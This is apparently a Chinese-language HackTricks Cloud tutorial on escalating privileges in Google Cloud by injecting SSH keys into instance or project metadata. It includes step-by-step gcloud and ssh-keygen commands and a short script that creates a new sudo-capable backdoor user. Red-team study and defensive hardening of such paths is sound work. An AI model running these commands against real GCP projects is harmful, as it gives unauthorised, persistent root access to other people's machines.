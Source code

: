 # GCP - 添加自定义SSH元数据

{% hint style="success" %}
学习并练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

如果攻击者获得必要的权限，实例上的元数据修改可能会导致**重大安全风险**。

### **将SSH密钥合并到自定义元数据中**

在GCP上，**Linux系统**通常会从[Google Compute Engine的Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)执行脚本。其中一个关键组件是[accounts守护程序](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在**定期检查**实例元数据端点以获取**授权的SSH公钥更新**。

因此，如果攻击者可以修改自定义元数据，他可以使守护程序找到一个新的公钥，该公钥将被处理并**集成到本地系统**中。该密钥将被添加到现有用户的`~/.ssh/authorized_keys`文件中，或者根据密钥的格式，可能会创建一个具有`sudo`权限的新用户。攻击者将能够 compromise 主机。

### **将SSH密钥添加到现有特权用户**

1. **检查实例上现有的SSH密钥：**
- 执行命令描述实例及其元数据，以查找现有的SSH密钥。输出中的相关部分将位于`metadata`下，特别是`ssh-keys`键下。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- 注意SSH密钥的格式：用户名在冒号之前，用冒号分隔。

2. **为SSH密钥元数据准备文本文件：**
- 将用户名及其对应的SSH密钥详情保存到名为`meta.txt`的文本文件中。这对于保留现有密钥并添加新密钥至关重要。

3. **为目标用户（此示例中为`alice`）生成新的SSH密钥：**
- 使用`ssh-keygen`命令生成新的SSH密钥，确保注释字段（`-C`）与目标用户名匹配。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 将新的公钥添加到`meta.txt`，模仿实例元数据中的格式。

4. **更新实例的SSH密钥元数据：**
- 使用`gcloud compute instances add-metadata`命令将更新后的SSH密钥元数据应用于实例。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **使用新的SSH密钥访问实例：**
- 使用新密钥通过SSH连接到实例，以在目标用户（此示例中为`alice`）的上下文中访问shell。
```bash
ssh -i ./key alice@localhost
sudo id
```

### **创建一个新的特权用户并添加SSH密钥**

如果找不到有趣的用户，可以创建一个新用户，并赋予该用户`sudo`权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 项目级别的SSH密钥 <a href="#sshing-around" id="sshing-around"></a>

可以通过**在项目级别应用SSH密钥**来扩大在云环境中对多个虚拟机（VMs）的SSH访问范围。这种方法允许对项目中任何未明确阻止项目范围SSH密钥的实例进行SSH访问。以下是简要指南：

1. **在项目级别应用SSH密钥：**
- 使用`gcloud compute project-info add-metadata`命令将`meta.txt`中的SSH密钥添加到项目的元数据中。此操作确保SSH密钥在项目中的所有VM中被识别，除非VM启用了“阻止项目范围SSH密钥”选项。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **使用项目范围密钥SSH进入实例：**
- 有了项目范围的SSH密钥，您可以SSH进入项目中的任何实例。不阻止项目范围密钥的实例将接受SSH密钥，从而授予访问权限。
- 直接SSH进入实例的方法是使用`gcloud compute ssh [INSTANCE]`命令。此命令使用您当前的用户名和在项目级别设置的SSH密钥来尝试访问。


# 参考资料
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
